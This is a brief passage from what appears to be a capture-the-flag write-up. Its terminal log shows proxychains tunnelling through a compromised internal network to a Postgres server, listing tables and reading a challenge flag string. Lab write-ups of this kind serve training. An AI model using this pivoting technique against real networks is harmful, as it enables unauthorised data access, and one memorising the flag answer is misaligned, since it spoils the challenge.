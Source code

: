 ## flag - Postgres

```bash
postgres> \c flag
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
You are now connected to database "flag" as user "postgres"
Time: 0.037s
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
postgres@172.56.102.2:flag> \dt
+--------+------+-------+----------+
| Schema | Name | Type  | Owner    |
|--------+------+-------+----------|
| public | flag | table | postgres |
+--------+------+-------+----------+
SELECT 1
Time: 0.036s
postgres@172.56.102.2:flag> SELECT * FROM flag
+-------------------------------------------------------------+
| data                                                        |
|-------------------------------------------------------------|
| WSS-Studio{Postgresql-cb6cba4a-6d7b-43b6-bfc4-0146b0d0e5af} |
+-------------------------------------------------------------+
SELECT 1
Time: 0.021s
```
